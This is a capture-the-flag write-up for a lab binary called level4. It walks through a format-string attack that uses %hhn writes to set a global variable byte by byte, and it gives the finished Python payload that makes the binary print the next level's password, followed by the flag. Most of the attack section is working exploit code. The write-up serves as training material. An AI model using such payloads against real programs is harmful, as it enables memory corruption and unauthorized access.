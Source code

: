 # level4

We find an executable `level4`. We examine it in Cutter. We determine it's similar to `level3` ; we'll have to exploit `%n` to set a variable to a specific value.

However, something's different this time : the number to write with `%n` is too big, we can't write that many bytes.

However, we can still take advantage of `%n`, using the `h` flag : `%hn` is for `short int`, and `%hhn` for `short short int` which allows us to write a one-byte value.

Here's what we'll do : we'll break down the 4-byte int, specify the 4 bytes as individual addresses and fill them with the corresponding byte.

## **The value**

Cutter reveals our variable should have the value `0x1025544`.

This can be broken down in four :
- `0x01` or `1`
- `0x02` or `2`
- `0x55` or `85`
- `0x44` or `68`

The `%n` count doesn't reset, so we'll write the total in ascending order. We'll need to write `1` char and fill the first byte ; write `1` char and fill the second byte ; write `66` chars and fill the last byte ; and write `17` chars and fill the third byte.

## **The address**

Cutter tells us the variable to change.

Running `info variable` in `gdb` yields us `m`'s address : `0x08049810`.

This gives us our four addresses (without forgetting to reverse the order for endianness) :

- Write value `0x01` to address `0x08049813`
- Write value `0x02` to address `0x08049812`
- Write value `0x55` to address `0x08049811`
- Write value `0x44` to address `0x08049810`

## **The buffer**

Quick experimentation reveals the beginning of the buffer is at spot `%12$`.

We'll want our buffer to look like the following :

```
12   13   14   15   16   17   18   19   20   21
AAAA BBBB CCCC DDDD EEEE FFFF GGGG HHHH IIII JJJJ

22   23   24   25   26   27   28   29   30   31
KKKK LLLL MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UUUU VVVV WWWW XXXX YYYY ZZZZ ++++ ---- ....
```

We write our `%??$hhn` after `1`, `2`, `68` and `85` bytes written (don't forget `%??$hhn` doesn't count as written bytes) :

```
12   13   14   15   16   17   18   19   20   21
A%?? $hhn C%?? $hhn EEEE FFFF GGGG HHHH IIII JJJJ

22   23   24   25   26   27   28   29   30   31
KKKK LLLL MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%? ?$hh nWWW XXXX YYYY ZZZZ ++%? ?$hh n...
```

We add our addresses in spots `20-23` :

```
12   13   14   15   16   17   18   19   20         21
A%?? $hhn C%?? $hhn EEEE FFFF GGGG HHHH 0x08049810 0x08049811

22         23         24   25   26   27   28   29   30   31
0x08049812 0x08049813 MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%? ?$hh nWWW XXXX YYYY ZZZZ ++%? ?$hh n...
```

Now all that's left is replacing each `??` with the index of the address you wanna fill each value with :

```
12   13   14   15   16   17   18   19   20         21
A%23 $hhn C%22 $hhn EEEE FFFF GGGG HHHH 0x08049810 0x08049811

22         23         24   25   26   27   28   29   30   31
0x08049812 0x08049813 MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%2 0$hh nWWW XXXX YYYY ZZZZ ++%2 1$hh n...
```

## **The exploit**

We turn that into something we can output in Python :

```
python -c 'print("A%23$hhnC%22$hhnEEEEFFFFGGGGHHHH\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUU%20$hhnWWWXXXXYYYYZZZZ++%21$hhn...")'
```

After a little cleanup, we get :

```
python -c 'print("_%23$hhn_%22$hhn________________\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08__________________________________%20$hhn_________________%21$hhn")'
```

## **The flag**

Now we just have to pipe that to `level4`, who directly runs `system ("/bin/cat /home/user/level5/.pass");`

```
python -c 'print("_%23$hhn_%22$hhn________________\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08__________________________________%20$hhn_________________%21$hhn")' | ./level4
```

It works ! We get the `level4` flag :

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```